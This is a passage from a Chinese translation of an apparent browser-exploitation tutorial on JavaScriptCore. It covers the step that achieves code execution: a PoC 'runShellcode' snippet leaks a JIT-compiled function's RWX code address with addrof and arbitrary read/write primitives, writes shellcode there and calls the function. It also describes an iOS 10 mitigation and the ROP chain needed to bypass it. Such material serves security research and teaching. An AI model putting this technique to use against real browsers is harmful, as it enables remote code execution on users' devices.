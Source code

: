 注意```m_butterfly```和```m_mode```是无效的，因为我们不能写null。 到这，暂时没有问题了，但一旦垃圾收集器运行发生时就会有问题。 这我们将在稍后进行处理。


## 6.3-执行shellcode

JavaScript引擎的一个特点就是所有的人都使用JIT编译。这个编译需要将指令写入存储器中的页面，并稍后执行它们。 为此，大多数引擎（包括JSC）分配可写和可执行的内存区域。这成为我们利用的一个好方向。 我们将使用我们的内存读写原语将一个指针泄漏到具有JavaScript函数的JIT编译代码中，然后将我们的shellcode写入并调用该函数，从而触发我们的代码执行。

附加的PoC实现了这一点。下面是runShellcode函数的相关部分：

```c
 // This simply creates a function and calls it multiple times to

    // trigger JIT compilation.

    var func = makeJITCompiledFunction();

    var funcAddr = addrof(func);

    print("[+] Shellcode function object @ " + funcAddr);

    var executableAddr = memory.readInt64(Add(funcAddr, 24));

    print("[+] Executable instance @ " + executableAddr);

    var jitCodeAddr = memory.readInt64(Add(executableAddr, 16));

    print("[+] JITCode instance @ " + jitCodeAddr);

    var codeAddr = memory.readInt64(Add(jitCodeAddr, 32));

    print("[+] RWX memory @ " + codeAddr.toString());

    print("[+] Writing shellcode...");

    memory.write(codeAddr, shellcode);

    print("[!] Jumping into shellcode...");

    func();

```

可以看出，PoC代码通过从JavaScript函数对象开始的，通过从一组对象的固定偏移读取一对指针来执行指针泄漏。 这不是很好,偏移可以在版本之间改变，但是足以用于演示。首先改进的是，应该尝试使用一些简单的试探（最高位全为零，“接近”其他已知存储器区域...）来检测有效指针。 接下来，可以基于唯一的存储器模式来检测一些对象。例如，从JSCell继承的所有类（例如ExecutableBase）要以可识别的头开始。 此外，JIT编译的代码本身可能会以一个已知的函数序言开始。

请注意，从iOS10开始，JSC不再分配一个RWX区域，而是使用两个虚拟映射到同一物理内存区域，其中一个可执行，另一个可写。然后在运行时出现memcpy的特殊版本，其可写区域的随机地址作为立即值，并被映射为--X，防止攻击者读取地址。 为了绕过这个，现在需要一个短的ROP链来调用这个memcpy，然后才进入可执行映射。


## 6.4-维持激活垃圾收集

